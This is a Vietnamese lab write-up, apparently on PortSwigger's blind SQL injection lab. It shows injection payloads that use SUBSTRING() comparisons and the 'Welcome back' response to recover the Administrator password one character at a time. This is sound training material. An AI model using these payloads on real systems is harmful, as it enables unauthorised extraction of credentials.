 **Bước 1: Kiểm tra ký tự đầu tiên của mật khẩu**

Bắt đầu với payload sau:

    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

- Nếu nhận được phản hồi **"Welcome back"**, điều này có nghĩa là **ký tự đầu tiên của mật khẩu lớn hơn 'm'** theo thứ tự bảng chữ cái.

Sau đó, thử với payload khác:

    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

- Nếu không nhận được phản hồi **"Welcome back"**, điều này có nghĩa là **ký tự đầu tiên không lớn hơn 't'**.

Tiếp tục thu hẹp phạm vi bằng cách thử với ký tự cụ thể:

    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

- Nếu nhận được phản hồi **"Welcome back"**, thì **ký tự đầu tiên của mật khẩu là 's'**.

**Bước 2: Xác định các ký tự tiếp theo**

Lặp lại quy trình trên với các vị trí tiếp theo của mật khẩu, thay đổi chỉ mục trong hàm **SUBSTRING()**, ví dụ:

    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 2, 1) > 'm

Dần dần, kẻ tấn công có thể xác định toàn bộ mật khẩu của tài khoản **Administrator**.

**Lưu ý**: Trong một số hệ quản trị cơ sở dữ liệu, hàm SUBSTRING() có thể được viết là SUBSTR(). 

# Lab: Blind SQL injection with conditional responses

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image101.png?raw=true)
